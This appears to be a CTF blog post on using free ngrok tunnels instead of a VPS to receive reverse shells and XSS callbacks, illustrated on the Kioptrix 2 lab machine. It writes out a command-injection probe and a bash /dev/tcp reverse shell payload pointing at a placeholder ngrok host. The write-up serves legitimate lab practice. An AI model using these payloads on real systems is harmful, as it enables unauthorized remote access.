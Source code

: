 ```yaml
---
author: "Maki"
title: "Doing CTF without paying VPS"
slug: "dontpayvps"
date: 2019-01-22
description: "How to do some reverse shell or get XSS response on a remote host without paying for a VPS."
---
```



## The goal

I think many of us do CTFs, but also many of us don't have any money, because we're student or addict to drugs. So when you don't have any money, you get creative.

<center>
![](https://media.giphy.com/media/Km2YiI2mzRKgw/giphy.gif)
</center>

For webguys who are looking for a reverse shell or who want admin cookies on a remote host (hello root-me), but don't want to pay for a VPS, there is a free solution. Ngrok.

## How it works?

Rather than making a super long and incomprehensible paragraph, here is a small diagram coming directly from the ngrok site:

<center>
![](https://ngrok.com/static/img/demo.png)
_Fig 1_: Secure connection from your localhost to ngrok servers
</center>

So for our needs we will make a tcp tunnel between our port listening with netcat and ngrok. To listen on the internet and wait for remote data:

<center>
![](/img/ngrokfreevps/douille.png)
_Fig 2_: Connection from the remote target to your localhost
</center>

Now, let's move on to practice.

## Ngrok installation

All those step are explained on the ngrok website. But first, you need to create an account, it will have a unique identifier. You can put garbage:

* Username: bitedepoulet
* Email address: bite@poulet.com
* Password: ***********

And then download the right archive, for me it's `Linux`: https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip

Unzip the archive, past the ngrok line with your private authtoken and we can start.

```
▶ unzip ngrok-stable-linux-amd64.zip 
Archive:  ngrok-stable-linux-amd64.zip
  inflating: ngrok                   

▶ ./ngrok authtoken ENTERYOUROWN
Authtoken saved to configuration file: /home/maki/.ngrok2/ngrok.yml

▶ ./ngrok help                                                 
NAME:
   ngrok - tunnel local ports to public URLs and inspect traffic

DESCRIPTION:
    ngrok exposes local networked services behinds NATs and firewalls to the
[...]
```

It's successfully installed.

## Practical example

Ok, so I start a boot2root machine on `root-me.org`: kioptrix 2 (download link + WU in resource section).

Here is the RCE:

<center>
![](/img/ngrokfreevps/kioptrix_rce.gif)
_Fig 3_: Kioptrix 2 RCE
</center>

Now, let's check which command are available for a reverse shell:

> ; which nc python python2 python3 perl ruby php bash

<center>
![](/img/ngrokfreevps/kioptrix_available.png)
_Fig 4_: Available command for reverse shell
</center>

You can find lot of amazing payload on: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

We will use `bash` command with the following payload:

> bash -i >& /dev/tcp/NGROK_IP/NGROK_PORT 0>&1

* NGROK_IP: Is the ngrok remote host with a domain like "0.tcp.ngrok.io".
* NGROK_PORT: The forwarding port associate to the ngrok remote host.

<center>
![](/img/ngrokfreevps/ngrok_rtcp.gif)
_Fig 5_: Reverse shell using ngrok on a remote host
</center>

I used `netcat` for my port listening, but you can use `python3 -m http.server 31337` to catch GET data with a real web server for example.

## Conclusion

This little trick allowed me to solve a lot of challenges without having a VPS. I hope you enjoyed this little blogpost :)

Feel free to ask me what you want on twitter @maki_chaz. 

Happy hacking guys :D

## Resources

1. Root-me, __Une plateforme rapide, accessible et réaliste pour tester vos compétences en hacking.__, _Root-me official website_: https://www.root-me.org/
2. Ngrok team, __What is ngrok?__, _Official ngrok blog_: https://ngrok.com/product
3. Vulnhub, __Kioptrix: Level 1.1 (#2)__, _Vulnhub team_: https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
4. Abatchy, __Kioptrix 2 Walktrhough (Vulnhub)__, _abatchy's blog_: https://www.abatchy.com/2016/12/kioptrix-2-walkthrough-vulnhub.html
5. pentestmonkey, __Reverse Shell Cheat Sheet__, _pentestmonkey blog_: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet